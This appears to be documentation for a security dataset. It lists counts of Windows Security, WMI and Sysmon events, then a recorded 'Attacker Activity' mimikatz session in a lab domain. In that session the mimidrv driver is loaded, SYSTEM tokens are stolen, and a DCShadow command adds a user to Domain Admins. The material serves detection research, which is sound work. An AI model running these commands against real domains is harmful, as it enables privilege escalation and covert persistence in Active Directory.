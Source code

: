 | Security                                   | Microsoft-Windows-Security-Auditing   | Directory Service Changes                              |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing   | Special Logon                                          |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing   | Kerberos Service Ticket Operations                     |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing   | Other Object Access Events                             |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing   | Sensitive Privilege Use                                |               2 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity        |                                                        |              16 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Registry object added or deleted (rule: RegistryEvent) |           23381 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Registry value set (rule: RegistryEvent)               |            9421 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Process accessed (rule: ProcessAccess)                 |            1241 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Image loaded (rule: ImageLoad)                         |             515 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Pipe Connected (rule: PipeEvent)                       |             336 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | File created (rule: FileCreate)                        |             124 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Network connection detected (rule: NetworkConnect)     |             119 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | RawAccessRead detected (rule: RawAccessRead)           |              54 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              |                                                        |              53 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Dns query (rule: DnsQuery)                             |              19 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon              | Process terminated (rule: ProcessTerminate)            |               2 |


## Attacker Activity

```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 3888/powershell.exe
 * to 7108/cmd.exe
 * to 8952/cmd.exe
 * to 6272/cmd.exe
 * to 8164/cmd.exe
 * to 9144/mimikatz.exe

mimikatz # lsadump::dcshadow /object:bilbo /attribute:primaryGroupID /value:512
** Domain Info **

Domain:         DC=shire,DC=com
Configuration:  CN=Configuration,DC=shire,DC=com
Schema:         CN=Schema,CN=Configuration,DC=shire,DC=com
dsServiceName:  ,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=shire,DC=com
domainControllerFunctionality: 7 ( WIN2016 )
highestCommittedUSN: 86111

```